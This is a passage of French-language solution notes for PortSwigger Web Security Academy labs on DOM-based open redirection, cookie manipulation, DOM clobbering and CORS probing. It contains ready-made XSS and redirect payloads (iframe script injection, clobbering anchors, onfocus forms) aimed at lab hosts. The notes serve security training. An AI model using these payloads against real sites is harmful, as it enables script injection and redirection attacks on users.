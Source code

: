 ### DOM-based open redirection

Observer le morceau suivant dans le code source de la page de n'importe quel article : 

    <div class="is-linkback">
        <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
    </div>

Il s'agit donc d'une simple redirection à injecter dans l'URL : 

    https://0a75009503d9c09d840573430015008f.web-security-academy.net/post?postId=4&url=https://exploit-0a3800f70389c09484ab725301290099.exploit-server.net/

### DOM-based cookie manipulation

En utilisant la fonctionnalité "Last viewed product", on observe que le dernier produit visité est stocké dans un cookie : 

>Cookie: session=sIQQUgYkG5gRoFzGXAW2nzaF9yBRh407; lastViewedProduct=https://0aba0028033eb0f382ac292800cb00a7.web-security-academy.net/product?productId=4

Mettre le payload suivant dans le serveur d'exploitation : 

    <iframe src="https://0aba0028033eb0f382ac292800cb00a7.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0aba0028033eb0f382ac292800cb00a7.web-security-academy.net';window.x=1;">

### Exploiting DOM clobbering to enable XSS

Premier commentaire : 

    <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
    
Ajouter un deuxième commentaire contenant n'importe quoi pour déclencher la XSS

### Clobbering DOM attributes to bypass HTML filters

Commentaire : 

    <form id=x tabindex=0 onfocus=print()><input id=attributes>
    
Exploit à envoyer à la victime : 

    <iframe src=https://0a3d000304148a138077d6df009800d1.web-security-academy.net/post?postId=9 onload="setTimeout(()=>this.src=this.src+'#x',500)">

## === Cross-origin resource sharing (CORS) ===

Headers à tester dans les requêtes : 

- Origin: abc.com
- Origin: null
- Origin: http://sous-domaine.site_cible.com

### CORS vulnerability with basic origin reflection
